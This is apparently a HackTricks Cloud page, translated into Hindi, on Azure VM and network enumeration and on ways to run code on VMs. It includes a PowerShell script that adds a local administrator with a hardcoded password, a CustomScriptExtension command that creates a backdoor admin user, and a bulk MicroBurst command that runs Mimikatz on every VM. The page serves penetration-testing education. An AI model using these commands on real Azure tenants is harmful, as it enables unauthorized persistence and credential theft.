 # Az - वर्चुअल मशीनें और नेटवर्क

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

## बुनियादी जानकारी

[दस्तावेज़ों से:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure वर्चुअल मशीनें [ऑन-डिमांड, स्केलेबल कंप्यूटिंग संसाधनों](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) के कई प्रकारों में से एक हैं जो Azure प्रदान करता है। आमतौर पर, आप एक वर्चुअल मशीन का चयन करते हैं जब आपको अन्य विकल्पों की तुलना में कंप्यूटिंग वातावरण पर अधिक नियंत्रण की आवश्यकता होती है। यह लेख आपको बताता है कि आपको वर्चुअल मशीन बनाने से पहले क्या विचार करना चाहिए, आप इसे कैसे बनाते हैं, और आप इसे कैसे प्रबंधित करते हैं।

## Azure नेटवर्क जानकारी

Azure नेटवर्क में **विभिन्न संस्थाएँ और इसे कॉन्फ़िगर करने के तरीके शामिल हैं।** आप विभिन्न Azure नेटवर्क संस्थाओं के संक्षिप्त **विवरण,** **उदाहरण** और **गणना** कमांड पा सकते हैं:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure बैस्टियन

**Azure बैस्टियन** SSL के माध्यम से Azure पोर्टल पर एक सुरक्षित, पूरी तरह से प्रबंधित RDP (रिमोट डेस्कटॉप प्रोटोकॉल) और SSH (सिक्योर शेल) एक्सेस समाधान प्रदान करता है। यह Azure वर्चुअल नेटवर्क के भीतर एकीकृत है, जो निजी IPs का उपयोग करके VMs के लिए RDP और SSH कनेक्टिविटी की अनुमति देता है, जिससे सार्वजनिक IPs की आवश्यकता समाप्त हो जाती है। यह सार्वजनिक IP असाइनमेंट और VM एक्सेस के लिए NSG नियम कॉन्फ़िगरेशन से संबंधित पारंपरिक तरीकों की तुलना में एक सुरक्षित, अधिक सुविधाजनक विकल्प बनाता है। डेवलपर्स और IT कर्मी अपने वेब ब्राउज़रों का उपयोग करके Azure पोर्टल से VMs तक सुरक्षित रूप से पहुँच सकते हैं, विकास और परीक्षण वातावरण के लिए प्रक्रिया को सरल बनाते हैं।

आप अपनी सदस्यता में सभी Azure बैस्टियन होस्ट की सूची बनाने के लिए निम्नलिखित कमांड का उपयोग कर सकते हैं:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM सूचीकरण
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **VM में कमांड चलाएँ**

### **VM में AAD लॉगिन**

AzureAD के माध्यम से प्रमाणित उपयोगकर्ताओं को पहुँच की अनुमति देना संभव है। उदाहरण के लिए, एक **linux VM** तक पहुँचने की कोशिश करते समय: `ssh username@azure-corp.com@1.1.1.1` (यह महत्वपूर्ण है कि **ईमेल का उपयोग करें** जो azurecorp के साथ लॉगिन करने की कोशिश करते समय उपयोग किया गया था) आपको एक त्रुटि मिल सकती है:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

बस **उन निर्देशों का पालन करें** [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) पर जाकर और कोड को इंगित करते हुए, ईमेल और पासवर्ड को क्रेडेंशियल के रूप में उपयोग करें और आप SSH के माध्यम से कनेक्ट करने में सक्षम होंगे (यदि उस उपयोगकर्ता के पास ऐसा करने के लिए पर्याप्त अनुमतियाँ हैं: `Virtual Machine Administrator Login` या `Virtual Machine User Login` भूमिका)।

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **कस्टम स्क्रिप्ट एक्सटेंशन चलाएँ**

Azure वर्चुअल मशीन (VM) एक्सटेंशन **छोटी एप्लिकेशन** हैं जो **Azure VMs** पर पोस्ट-डिप्लॉयमेंट कॉन्फ़िगरेशन और ऑटोमेशन **कार्य** प्रदान करती हैं। उदाहरण के लिए, यदि एक वर्चुअल मशीन को सॉफ़्टवेयर इंस्टॉलेशन, एंटीवायरस सुरक्षा, या इसके अंदर एक स्क्रिप्ट चलाने की आवश्यकता है, तो आप एक VM एक्सटेंशन का उपयोग कर सकते हैं।

इसलिए, यदि आपके पास इसे लिखने का एक्सेस है, तो आप मनमाना कोड निष्पादित कर सकते हैं:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) एक PowerShell टूल है जो Ansible के समान है, जिसका उपयोग कोड के माध्यम से एक होस्ट को सेटअप करने के लिए किया जाता है। DSC Azure के साथ एकीकृत होता है, जिससे विशिष्ट कॉन्फ़िगरेशन फ़ाइलों को अपलोड करना संभव होता है। ये फ़ाइलें एक सख्त सिंटैक्स का पालन करना चाहिए। विशेष रूप से, Azure में DSC एक्सटेंशन उन फ़ाइलों से कमांड निष्पादित कर सकता है जो कुछ फ़ॉर्मेटिंग मानदंडों को पूरा करती हैं, भले ही सिंटैक्स DSC मानकों के लिए सही न हो, जैसा कि प्रदान की गई आकृति में दिखाया गया है।

इन कमांडों का निष्पादन Az PowerShell में [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) फ़ंक्शन द्वारा किया जाता है। आवश्यकताओं में एक **.PS1** फ़ाइल शामिल है जिसमें एक परिभाषित फ़ंक्शन है और फ़ाइल को **.zip** फ़ाइल में संकुचित किया जाना चाहिए। भले ही सिंटैक्स DSC के लिए सटीक न हो, कोड फिर भी निष्पादित होगा। हालाँकि, एक्सटेंशन निष्पादन स्थिति को "विफलता" के रूप में चिह्नित करेगा, और स्थिति के विफलता संदेश द्वारा अधिलेखित होने के कारण कमांड से कोई आउटपुट दिखाई नहीं देगा।

### VM Application Definitions

VM Application Definitions Azure VM पर संस्करणित अनुप्रयोगों की पुनरावृत्त तैनाती की अनुमति देती हैं। यह संसाधन VMs के बीच अनुप्रयोगों की तैनाती और अपडेट का समर्थन करता है। इसे सेट करने के लिए, कई चरणों की आवश्यकता होती है, जिसमें Az PowerShell में **`New-AzGalleryApplication`** और **`New-AzGalleryApplicationVersion`** जैसे कमांड शामिल हैं।

इस विधि के माध्यम से अनुप्रयोगों या कमांडों का निष्पादन **"VMAppExtension"** के माध्यम से होता है, जो स्वचालित रूप से तब स्थापित होता है जब एक अनुप्रयोग को VM पर लागू किया जाता है। एक्सटेंशन निर्दिष्ट URI से फ़ाइल को पुनः प्राप्त करता है और इसे अनुप्रयोग के रूप में ठीक उसी नाम से नामित करता है, बिना किसी एक्सटेंशन के। फ़ाइल को सही ढंग से निष्पादित करने के लिए, REST API कॉल में "ManageActions" फ़ील्ड को फ़ाइल को उचित एक्सटेंशन के साथ पुनः नामित करने के लिए कॉन्फ़िगर किया जाना चाहिए। इस विधि की सेटअप, एक बार पूर्ण होने पर, प्रदान की गई आकृति में दिखाए गए ढांचे के समान होगी।

हालांकि, निष्पादन की यह विधि अपेक्षाकृत धीमी है, एक अनुप्रयोग या कमांड को निष्पादित करने में लगभग 3-4 मिनट लगते हैं। इस प्रक्रिया से संबंधित फ़ाइलें विशिष्ट निर्देशिकाओं में संग्रहीत होती हैं (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` अनुप्रयोग कॉपी के लिए और `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` निष्पादन स्थिति के लिए)।

दोनों तकनीकें Azure वातावरण में कमांड निष्पादित करने और अनुप्रयोगों को तैनात करने के अद्वितीय तरीके प्रदान करती हैं, प्रत्येक के अपने सेट आवश्यकताएँ, चरण और विचार होते हैं।

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) Azure में एक विशेषता है जो Automation Account में कॉन्फ़िगर किए गए Runbooks को एक Azure Virtual Machine (VM) पर निष्पादित करने की अनुमति देती है जो निर्दिष्ट HWG का हिस्सा है। यह निष्पादन VM पर स्थापित एक एक्सटेंशन के माध्यम से किया जाता है, जो VM पर Runbook कोड को तैनात करता है। इस प्रक्रिया का एक महत्वपूर्ण पहलू यह है कि वास्तविक क्रेडेंशियल्स निष्पादन में एक कारक नहीं होते हैं क्योंकि कोड उच्च विशेषाधिकारों के साथ चलता है, विशेष रूप से **SYSTEM** या रूट के रूप में, जैसा कि प्रदान की गई आकृति में दर्शाया गया है।

Windows 10 VMs का उपयोग करने वालों के लिए एक महत्वपूर्ण विवरण यह है कि Runbook के लिए PowerShell संस्करण निर्दिष्ट करना आवश्यक है। इसे PowerShell संस्करण 5.1 के रूप में चलाने के लिए सेट किया जाना चाहिए, न कि 7.1 के रूप में। यह आवश्यकता इस तथ्य से उत्पन्न होती है कि PowerShell 7.1 इन VMs पर डिफ़ॉल्ट रूप से स्थापित नहीं है, जिससे यदि संस्करण 7.1 निर्दिष्ट किया जाता है तो स्क्रिप्ट निष्पादन में विफलता होती है।

Azure की यह विशेषता हाइब्रिड वातावरण में कार्यों को स्वचालित और प्रबंधित करने के लिए एक मजबूत विधि प्रदान करती है, जो Azure VMs पर कार्यों के केंद्रीकृत प्रबंधन और निष्पादन की अनुमति देती है।

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
